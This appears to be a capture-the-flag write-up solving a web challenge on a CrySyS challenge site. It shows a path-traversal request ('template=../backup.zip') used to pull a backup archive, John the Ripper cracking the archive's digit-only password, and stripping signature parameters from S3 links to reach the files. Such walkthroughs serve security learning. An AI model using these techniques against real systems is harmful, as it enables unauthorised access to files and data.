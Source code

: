 The source of https://instant-development-company.secchallenge.crysys.hu/review reveals a link to the /debug folder.

```
...
<body>
    <a href="/" class="menu-button" style="text-align: justify;">Main page</a>
    <a href="/review" class="menu-button" style="text-align: justify;">Leave feedback</a>
    <a href="/debug" class="menu-button" style="text-align: justify;"></a>
...
```

There are a couple of potential attack points in that page. One is a template file viewer. Let's try that on debug.html with curl:

```
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=debug.html'
{% extends "base.html" %}

{% block head %}
<title>Debug page</title>
{% endblock %}

{% block body %}
<div>
    <h1 style="text-align: center;">Debug</h1>

    <!-- [AUTOREMOVE] AN: I've created a backup of our contracts for archival purposes. It should be in a backup.zip file in the root directory. -->
    <!-- [AUTOREMOVE] AN: Unfortunately I kinda forgot the password, but I do remember that it only had numbers in it and it was 10 digits long. -->

    <form action="/ping" method="POST">
        <label for="addr">Ping address:</label>
        <input type="text" id="addr" name="addr" placeholder="google.com">
        <input type="submit" value="Ping">
    </form>

    <br><br>

    <form action="/download/templates" method="POST">
        <label for="template">Download site templates:</label>
        <select name="template" id="template">
            <option value="base.html">base.html</option>
            <option value="index.html">index.html</option>
            <option value="reviews.html">reviews.html</option>
            <option value="debug.html">debug.html</option>
            <option value="announce.html">announce.html</option>
        </select>
        <input type="submit" value="Download">
    </form>

    <br><br>

    <form action="/devmessage" method="POST">
        <label for="devmessage">Message other developers:</label>
        <input type="text" id="dev" name="dev" placeholder="developer">
        <input type="text" id="message" name="message" placeholder="message">
        <input type="submit" value="Send">
    </form>

</div>
{% endblock %}%
```

Bingo. There has to be a backup.zip somewhere with a password of 10 digits. Let's try downloading the zip with the template downloader again:

```
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=../backup.zip' > backup.zip
```
Now run John the ripper to get the password:
```
> john --incremental=digits --min-length=10 --max-length=10 hash.txt
```

Unzip the file
```
> unzip -P REDACTED backup.zip
```

We find a file containing a bunch of S3 download links in the form of:
```
...
https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
...
```

But we cannot download them:
```
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Request has expired</Message><Expires>2021-10-13T20:41:40Z</Expires><ServerTime>2022-03-16T06:57:35Z</ServerTime><RequestId>7D3PB49BH510BXPD</RequestId><HostId>kpPQtioPMo0Tq+sY0b5wg5mlH+ZmJc/vwT7AAKwFrHSaxGLGt0cosQ1YwAqm2sAVfosziX8Tric=</HostId></Error>
```

Try removing the expires and signature part from the url:

```
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000
...bunch of text...
```
We just need to download all files and filter for the flag.